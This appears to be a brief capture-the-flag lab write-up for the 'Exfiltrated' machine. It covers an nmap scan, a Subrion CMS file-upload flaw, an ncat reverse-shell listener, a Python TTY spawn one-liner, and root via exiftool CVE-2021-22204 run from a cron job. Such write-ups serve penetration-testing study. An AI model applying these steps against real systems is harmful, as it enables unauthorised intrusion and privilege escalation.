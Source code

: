 
## NMAP: 

``` nmap-scan
$ nmap -sC -sV -p- -T 4 exfiltrated.pg

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-20 20:35 UTC
Nmap scan report for exfiltrated.pg (192.168.51.163)
Host is up (0.0066s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.16 seconds
                                                            
```

## Website at port 80:

Subrion version 4.9 - File upload vulnerability by uploading PHP with .phar extension

```
	ncat -lvnp 9000
	
```

TTY Shell spawn:
```TTY-SHELLSPAWN
python3 -c 'import pty;pty.spawn("/bin/bash")'; export TERM=xterm-256color
```

Used LinPeas to find info:
	Found vulnerable cronjob run by root every minute
	Cron script was not editable but could be read
	Cron script ran exiftool on all jpg images in the uploads folder of the Subrion CMS
	Found exiftool version with ```-ver```
	Found [CVE-2021-22204](https://github.com/convisolabs/CVE-2021-22204-exiftool/tree/master) in exiftool 11.88
	Used [Exploit script](https://github.com/UNICORDev/exploit-CVE-2021-22204)
	Root shell spawned with nc listener